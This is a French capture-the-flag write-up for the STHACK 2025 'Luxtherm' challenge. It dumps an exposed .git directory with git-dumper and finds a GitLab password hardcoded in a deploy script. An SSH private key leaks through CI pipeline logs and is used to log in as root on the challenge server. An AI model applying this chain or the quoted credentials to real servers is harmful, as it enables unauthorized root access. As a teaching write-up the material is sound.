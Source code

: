 # Luxtherm - STHACK2025

Ce writeup présente ma solution pour résoudre le challenge `Luxtherm` lors du CTF de la `STHACK 2025` le 23/05/2025.

## 🔎 Reconnaissance / Énumération

Le lien vers le site était directement fourni sur la page du challenge. Hormis un simple bouton cliquable qui ne faisait rien et un texte indiquant la date de la dernière mise en production du site, rien de suspect à première vue.

![](img/luxtherm-site.png)

En utilisant Wappalyzer, j’ai remarqué que le site était hébergé sur un serveur Apache. J’ai donc testé le chemin `/.htaccess`. Malheureusement, cela m’a retourné une erreur 403 😿.

J’ai ensuite essayé d’autres chemins courants au hasard avant de lancer une énumération plus poussée avec ffuf. Par pure chance, le chemin `.git/HEAD` était accessible 🙀.


## 📁 Dump des fichiers sur le serveur Apache

Le fait que le chemin `.git/` soit accessible nous permet de télécharger l’intégralité des fichiers du répertoire courant du serveur Apache, y compris les fichiers du dépôt Git. Ces fichiers sont particulièrement intéressants, car ils contiennent des informations sur les modifications apportées au site. Cela peut inclure des secrets laissés en clair dans le code ou d'autres étourderies des développeurs 👀.

Pour récupérer ces fichiers, j’ai utilisé [`git-dumper`](https://github.com/arthaud/git-dumper), un outil conçu spécifiquement pour exploiter ce type de vulnérabilité.

```sh
git-dumper http://51.15.214.59/.git ~/luxtherm
```

J’ai obtenu plusieurs dossiers et fichiers :

* `.git/`, contenant toutes les informations relatives au dépôt Git.
* `src/`, contenant le script de déploiement du site en prod.
* `var/www/`, contenant les sources de l’application.
* `.gitignore`, qui liste les fichiers ignorés lors des pushs sur le dépôt.
* `.gitlab-ci.yml`, contenant les instructions pour déployer automatiquement le site à chaque push via une [pipeline](https://docs.gitlab.com/ci/pipelines/).

Je me suis d’abord concentré sur le script de déploiement `script.sh` dans le dossier `src/` :

```sh
#!/bin/bash

# Arrêter le script en cas d'erreur
set -e

echo 'Creation du chemin vers la clé SSH privée'
mkdir -p "$HOME/.ssh/"

echo 'Écrire la clé SSH privée dans un fichier'
SSH_PRIVATE_KEY_PATH="$HOME/.ssh/id_rsa"
echo "$SSH_PRIVATE_KEY" > "$SSH_PRIVATE_KEY_PATH"
chmod 600 "$SSH_PRIVATE_KEY_PATH"

echo 'verification'
ls -lisah "$SSH_PRIVATE_KEY_PATH"

echo 'Informations de connexion au serveur'
SERVER_USER="root"
SERVER_IP="51.15.214.59"


# Deployer le site web
scp -r -i "$SSH_PRIVATE_KEY_PATH" -o StrictHostKeyChecking=no var/www/html "$SERVER_USER@$SERVER_IP":/var/www/.

# Commande pour se connecter au serveur et déployer l'application
ssh -i "$SSH_PRIVATE_KEY_PATH" -o StrictHostKeyChecking=no "$SERVER_USER@$SERVER_IP" << 'EOF'
    # Commandes à exécuter sur le serveur

    # cette synthaxe est deprecated, elle est remplacée par le scp qq lignes plus haut
    # git clone https://root.luxtherm:2025sthacK+-/@gitlab.com/root.luxtherm-group/webapp-auto-deploy

    # indication de la date du dernier déploiement
    HORODATE=$(date)
    sed -i "s@MOTIF@$HORODATE@g" /var/www/html/index.html

    # Ajoutez ici d'autres commandes nécessaires pour construire et démarrer votre application
    # Par exemple :
    # npm install
    # npm run build
    # pm2 restart all
EOF

echo 'Supprimer la clé SSH privée après utilisation'
rm "$SSH_PRIVATE_KEY_PATH"
```

Plusieurs informations intéressantes ressortent :

* L’utilisateur pour déployer le site est `root`, et a donc les privilèges les plus élevés.
* L’adresse du dépôt GitLab du projet est : `gitlab.com/root.luxtherm-group/webapp-auto-deploy`.
* Le script utilise une clé SSH lors du déploiement. Si l’on trouve cette clé dans une version précédente du projet via une erreur des développeurs (clé SSH ou fichier `.env` poussé accidentellement), nous pourrions nous connecter en SSH au compte root.

## 🔑 A la recherche de la clé SSH

J’ai commencé par utiliser `git log` pour lister tous les commits du projet :

```bash
git log

commit 0ab08cd06e26350b947341147bd9174c6ea98f8d
Author: ######
Date:   Tue May 20 22:37:28 2025 +0200

    Deploiement auto du site Luxtherm

commit a81b1787a5c8eccb4120dad9ebe9fbd32d1683d8
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 19:35:24 2025 +0000

    Modifier script.sh

commit e2adf9251214a15553e016b03e8568a2d0d2d1fb
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 19:26:44 2025 +0000

    Modifier script.sh

commit e71e6afa2acfb320817f10af3f63be03ab1402c5
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:35:05 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit 0805a52efd200f3645167eb1d99ec2483793be0d
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:30:00 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit f9da8bcf0c8a47c38a17745311634aec399174e3
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:29:31 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit a11fd1dbf19fb66ecc64baef0cda3858490aa39f
Author: ######
Date:   Tue May 20 19:24:56 2025 +0200

    Premiere version de script de deploiement

commit ef88ce29f019a182d58c43a7dcafcb04e29fac45
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:17:52 2025 +0000

    Initial commit
```

Après avoir exploré les versions précédentes du projet, je n’ai pas trouvé de clé SSH. Je me suis alors rappelé du fichier `.gitlab-ci.yml` et j’ai décidé d’examiner son contenu :

```yml
stages:
  - Deploy

job_Deploy:
  stage: Deploy
  script:
  - echo 'Pipeline de déploiement du site web en production'
  - echo 'NE PAS MODIFIER LE PIPELINE POUR QUE LE CHALLENGE RESTE JOUABLE POUR LES AUTRES, MERCI'
  - echo 'DEBUG:'$SSH_PRIVATE_KEY
  - chmod u+x src/script.sh
  - src/script.sh
```

**Bingo 🎰 !** À chaque push, la clé SSH est affichée en clair dans la console grâce à la ligne :
`echo 'DEBUG:'$SSH_PRIVATE_KEY`.

Direction le dépôt GitLab pour vérifier les traces d’exécution des pipelines !


## 📦 Balade sur le dépôt Git

Comme prévu, les fichiers déjà récupérés sont présents.

![](img/Luxtherm-git-1.png)

En examinant les exécutions de pipeline, je suis tombé sur une exécution réussie avec un job "passant".

![](img/Luxtherm-git-3.png)

Et voilà ! La clé SSH était affichée en clair. Il ne restait plus qu’à la reformater correctement et à l’ajouter dans le dossier `.ssh/`.


En me connectant en SSH avec la commande :

```bash
ssh root@51.15.214.59
```

J’ai accédé au serveur en tant que root. Le flag était alors facile à récupérer 😄.
